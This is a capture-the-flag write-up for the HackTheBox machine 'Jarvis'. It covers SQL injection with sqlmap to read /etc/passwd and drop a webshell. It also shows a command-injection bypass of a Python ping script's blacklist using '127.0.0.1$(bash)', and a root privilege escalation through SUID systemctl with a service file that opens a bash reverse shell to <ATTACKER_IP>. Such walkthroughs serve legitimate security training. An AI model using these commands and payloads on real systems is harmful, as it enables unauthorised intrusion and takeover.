







# HackTheBox - Jarvis

Let's start and see what ports are open on the machine.

`nmap -p- -T4 -sV -A 10.10.10.143`



We see a web server and an open SSH server.
Then we take a look at what is running on the webserver and we see a set up hotel page.


I started to enumerate the website.
I enumerated with various tools as well as manually and noted where possible attack vectors could be found.

At the following URL we can view and book hotel rooms.

`http://<IP>/room.php?cod=2`

I started here to do some Quick SQLi tests manually.
With the value `1` and `2` we see different rooms.

But if we pass the `cod` parameter as value `2-1`, we see the room with the value `1`.
This raises the suspicion that we have a __SQL Injection__ vulnerability.

For exploiting I used `sqlmap`.

`sqlmap -u "http://<IP>/room.php?cod=1" --level 5 --risk 3 --batch --random-agent`



Now that I had a confirmed SQLi vuln I wanted to know what database privileges I can work with.

With the param `--privileges` we can see under which account we operate in the database and which privileges it has.



These are all kinds of privileges that we have.
Interestingly, we have `FILE` privilege, which means that we can read files and also write to the system.

To confirm the reading of files we can test `sqlmap` with the param `--file-read=` and the value `/etc/passwd`.
Sqlmap will then tell us if this was successful and tell us where it saved the file.

```
[01:28:12] [INFO] the local file '/home/<USER>>/.local/share/sqlmap/output/<MACHINE_IP>>/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (1434 B)
files saved to [1]:
[*] /home/user/.local/share/sqlmap/output/<MACHINE_IP>>/files/_etc_passwd (same file)
```

To test whether write operations via the SQLi gap also work on the system, we can create a test file and write the `test` file to the `/tmp` directory using the `--file-write=./test --file-dest=/tmp/test` switches and then read it again via `--file-read=/tmp/test`.

So, now that we know that the write/read works via our SQLi vuln we want to place a webshell.
With the param `--os-shell` we can tell sqlmap to write us a webshell on the system which we can use to issue system commands.

Since the application is based on PHP, we tell sqlmap to place a PHP shell and then sqlmap wants to know where to place the shell.
Sqlmap has its own bruteforce list with default paths which I used for selection.



## www-data -> pepper

Ok, after a dropped `id` command we can see that we are operating under the user `www-data`.
I upgraded to a reverse shell and started enumerating the system.

I had to smile when I saw that the `www-data` user was actually assigned sudo rights and I saw the first PE vector.

`sudo -l`



We can use a custom `python` script as user `pepper` via sudo.

So let's have a look at the source code and play around with the script!

If we do `sudo -u pepper /var/www/Admin-Utilities/simpler.py` we get the following help menu.



The source code of the script is as follows:

```python3
cat /var/www/Admin-Utilities/simpler.py
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()

    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1

    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)

def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req

def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]

def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

The following section is interesting:

```python3
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

This is the function which is called when we want to ping an IP.
Since this function sends a system command with user input it is of great importance to us for a PE vector.

Then let's see how we can add malicious code here to get to the user `pepper`.
The function blacklists certain characters:

The bypass is quite simple.
Neither brackets nor the dollar sign are blacklisted so we can run a subshell.

So I entered `127.0.0.1$(bash)` and was user `pepper`.

In the new subshell, however, we don't get to see any output, so I started a new rev-shell from which I could operate normally.

## pepper -> root

While searching for __SUID__ binaries I found the following binary with a SUID bit set.

A look at [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) tells us immediately that here is a PE vector if the SUID bit is set.

I created a __Service File__:

```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4545 0>&1'

[Install]
WantedBy=multi-user.target
```

I went to the `/dev/shm` directory on the target machine and downloaded the service file to me via `wget` and a `python3 http-server`.

I linked the file `/bin/systemctl link /dev/shm/root.service`, started a final netcat listener and activated the reverse service via `systemctl start root`.

On my listener I got a rev-shell as root and fetched the final flag.




